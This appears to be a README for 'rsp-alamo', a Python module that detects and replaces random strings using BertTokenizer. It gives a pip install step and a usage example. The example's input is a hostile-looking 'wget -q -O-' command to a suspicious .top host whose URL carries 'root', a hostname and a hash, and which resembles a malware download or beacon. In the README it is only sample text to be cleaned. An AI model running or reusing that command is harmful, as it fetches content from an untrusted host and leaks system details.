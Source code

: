 # rsp-alamo
Random-string-processing - is a python module for detect random string by BertTokenizer from transformers.

# Quick start guide
You can quickly use rsp-alamo via pip-installation:``
```bash
$ pip/pip3 install rsp-alamo
```

# API example
```python
from rsp.util import RspUtil
rsp_util = RspUtil()
string = "wget -q -O- http://t.jdjdcjq.top/ln/a.asp?rds_20210710*root*dclnmts02." \
         "adderucci.com*3e4812648d32b3808308784c4b69240d227f3cd97906957f65e70b962e9852f2"
print(rsp_util.replace_rs(string))
```
